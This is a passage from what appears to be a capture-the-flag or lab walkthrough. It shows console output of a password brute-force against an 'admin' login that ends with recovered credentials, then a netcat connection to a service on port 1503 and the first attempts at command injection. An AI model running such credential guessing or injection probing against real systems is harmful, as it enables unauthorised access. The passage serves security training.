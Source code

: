 ```console
[10:05:26]     [-] Trying 10 of 14344392 - admin:abc123
[10:05:26]     [-] Trying 11 of 14344392 - admin:nicole
[10:05:27]     [-] Trying 12 of 14344392 - admin:daniel
[10:05:27]     [-] Trying 13 of 14344392 - admin:babygirl
[10:05:28]     [-] Trying 14 of 14344392 - admin:monkey
[10:05:28]     [-] Trying 15 of 14344392 - admin:lovely
[10:05:29]     [-] Trying 16 of 14344392 - admin:jessica
[10:05:29]     [-] Trying 17 of 14344392 - admin:654321
[10:05:30]     [-] Trying 18 of 14344392 - admin:michael
[10:05:30]     [-] Trying 19 of 14344392 - admin:ashley
[10:05:31]     [-] Trying 20 of 14344392 - admin:qwerty
[10:05:31]     [-] Trying 21 of 14344392 - admin:111111
[10:05:32]     [-] Trying 22 of 14344392 - admin:iloveu
[10:05:32]     [-] Trying 23 of 14344392 - admin:000000
[10:05:33]     [-] Trying 24 of 14344392 - admin:michelle
[10:05:33]     [-] Trying 25 of 14344392 - admin:tigger
---snip---
[10:16:27]     [!] Success! admin:macintosh
```

After about 11 minutes, we find the credentails of __admin:macintosh__.

## Exploiting a Command Injection Vulnerability:

Alright, now that we have working credentials, let's go ahead and access the application on TCP/1503.

```console
root@kali:~# nc 192.168.0.6 1503
Enter login: admin
Enter password: macintosh


Select option:
	1. First script
	2. Second script
	3.Third script

To exit type -1.
Option: 
```
Okay, so it seems that we have three options to choose from. Let's try random input to see if the scripts do anything, or if we can't break the application by injecting arbitrary commands.

```console
To exit type -1.
Option: 1
Option: 2
Option: 3
Option: ||
Invalid input!
```
